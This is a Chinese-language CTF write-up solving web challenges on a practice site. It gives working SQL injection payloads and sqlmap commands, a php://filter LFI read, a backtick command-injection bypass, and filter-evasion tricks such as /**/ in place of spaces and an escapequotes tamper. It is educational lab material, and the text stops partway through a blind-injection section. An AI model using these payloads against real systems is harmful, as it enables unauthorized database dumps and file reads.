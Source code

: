# Web

## 12: hide and seek

在主页代码里面，搜索 FLAG 即可。

## 13: guestbook

> [sqlmap](http://sqlmap.org/) is your friend.

所以让我们的「好朋友」出场吧。

最终可以发现，`https://hackme.inndy.tw/gb/?mod=read&id=10` 中的 `id` 参数可以 SQL 注入。于是最终的 payload:

```shell
sqlmap -u "https://hackme.inndy.tw/gb/?mod=read&id=10" -p id --dbs -D g8 --dump
```

## 14: LFI

LFI 是什么？它是 Local File Inclusion（本地文件包含）的缩写。

可以观察到该题的 URL 如下：

```
https://hackme.inndy.tw/lfi/?page=pages/index
https://hackme.inndy.tw/lfi/?page=pages/intro
https://hackme.inndy.tw/lfi/?page=pages/login
https://hackme.inndy.tw/lfi/?page=pages/flag
```

因此可以猜测，`page` 参数可以会有文件包含漏洞。访问 `https://hackme.inndy.tw/lfi/?page=notfound`（不存在的文件）可以看到一个小彩蛋 233333。

直接访问 `https://hackme.inndy.tw/lfi/?page=pages/flag` 得不到任何东西。根据提示 `php://filter`，可以构造：

```
https://hackme.inndy.tw/lfi/?page=php://filter/read=convert.base64-encode/resource=pages/flag
```

将得到的内容用 base64 解码，得到：

```php+HTML
Can you read the flag<?php require('config.php'); ?>?
```

emmm 那看看 `config.php` 里面是什么吧。Payload:

```
https://hackme.inndy.tw/lfi/?page=php://filter/read=convert.base64-encode/resource=pages/config
```

解码后即可得到 flag。

## 15: homepage

主页中引用了 `https://hackme.inndy.tw/cute.js`，复制下来在控制台里运行然后扫码即可。

## 16: ping

源代码显示这个程序会对输入进行检测，然后执行 `ping`。我们的目标是命令执行，而不是真去  `ping`。PHP 中的 `exec()` 有点像 C 库的 `system()`，都是调用系统 shell 来执行命令，而不是直接去 `execve()`，所以我们可以在参数中加一点东西，让 shell 执行开发者意料之外的命令。有一些限制条件：

- 我们的 payload 不能超过 15 个字符。
- 一些特定的单词、符号不能够出现。

虽然很多常见的符号被过滤了，但是 `` ` `` 没有被过滤掉。

可以看看目录下面有什么：

```
`ls`
```

返回：

```
ping: unknown host flag.php
index.php
```

很明显，我们需要查看 `flag.php` 的内容，但是 `cat` 被过滤了。所以考虑用 `head` 或者 `tail` 来查看 flag.php。`flag` 被过滤了，但是可以用通配符。

Payload:

```
`tail f*`
```

## 17: scoreboard

记分板页面隐藏着怎样的秘密？查看源代码，没有发现什么有用的东西。转向网络请求，发现返回头的 `x-flag` 参数就是我们要的 flag。

## 18: login as admin 0

这里我们仍然尝试使用 `sqlmap`，但如果直接调用 `sqlmap`，会发现没有办法注入。

所以我们需要 tamper。`sqlmap` 内置的一些 tamper 可以在网络上查找到介绍，这里不再叙述。

源代码中「过滤请求」的部分如下：

```php
function safe_filter($str)
{
    $strl = strtolower($str);
    if (strstr($strl, 'or 1=1') || strstr($strl, 'drop') ||
        strstr($strl, 'update') || strstr($strl, 'delete')
    ) {
        return '';
    }
    return str_replace("'", "\\'", $str);
}
```

可以注意到，虽然我们的请求字符串在转换为小写后中如果有 `or 1=1` 等字符串时整个请求会被清空，但是其他被直接过滤的字符串会改变数据库的内容，但我们的注入不会（也不应该）改变数据库。所以最关键的部分是第九行，将 `'` 替换为 `\'` 这**两个字符**（不是替换成 `\\'` 三个字符！可以在 PHP 的 REPL 里面亲自试一下。），即尝试转义请求字符串中的 `'`。

但如果我们的输入是 `\'` 呢？在该函数过滤之后结果就是 `\\'`。可以发现，`\` 被转义了，但是 `'` 没有。

查找资料可以发现，`sqlmap` 自带的 tamper `escapequotes.py` 可以像这样转义引号。该 tamper 的核心代码：

```python
return payload.replace("'", "\\'").replace('"', '\\"')
```

同样，它将 `sqlmap` 产生的 payload 进行处理，将 `'` 替换为 `\'` （**两个**字符），将 `"` 替换为 `\"`。

所以照样用 `sqlmap`，加上 tamper 就可以了。

Payload:

```shell
sqlmap -u "https://hackme.inndy.tw/login0/" --data="name=admin&password=bbb" --dbms=MySQL --tamper="escapequotes" -p password --dbs -D login_as_admin0 --columns --dump
```

获得 admin 密码，登录即可。

## 19: login as admin 0.1

非常怪异的是，`sqlmap` 无法得到表 `h1dden_f14g` 中 `the_f14g` 的内容。

我们加上 `-v3` 参数来显示详细的 payload。此处出现问题的 payload 如下：

```
bbb\' UNION ALL SELECT NULL,CONCAT(0x716a7a6271,IFNULL(CAST(the_f14g AS CHAR),0x20),0x7176707671),NULL,NULL FROM login_as_admin0.h1dden_f14g ORDER BY the_f14g-- jdWz
```

从之前 `sqlmap` 的结果可以知道表 `user` 有 4 列，第二列 `user` 会回显在登录成功的页面上。并且可知 flag 只有一个。所以简化为：

```
bbb\' UNION SELECT 1,CAST(the_f14g AS CHAR),3,4 FROM login_as_admin0.h1dden_f14g-- ddd
```

登录后即可获得 flag。

## 20: login as admin 1

该题提示不能使用 `sqlmap`。初测了一下，确实不行。但是观察代码，可以根据第 19 题的 payload 修改。

可以注意到空格被过滤了，所以用注释 `/**/` 代替空格就可以了。

密码字段的 payload:

```
bbb\'/**/UNION/**/SELECT/**/1,2,3,4#
```

## 21: login as admin 1.2

提示布尔盲注。如果之前试过给 `sqlmap` 加上随机 UA，写 tamper 改变结尾注释（如果结尾是 `-- xxxx` 的话似乎会失败）的话，会发现 `sqlmap` 找到了注入点，但是没有办法爆破。

原因在于，在第 18 题中，登录成功返回页面：

```php+HTML
<h3>Hi, <?=htmlentities($user->user)?></h3>
```

而该题中的登录成功返回页面：

```php+HTML
<h3>Hi, <?=htmlentities($_POST['name'])?></h3>
```

没有地方可以给 `union select` 注入返回数据。那么布尔盲注是怎么做到的呢？

```php+HTML
<h4><?=sprintf("You %s admin!", $user->isadmin ? "are" : "are not")?></h4>
```

可以注意到，这里实质返回的是布尔值。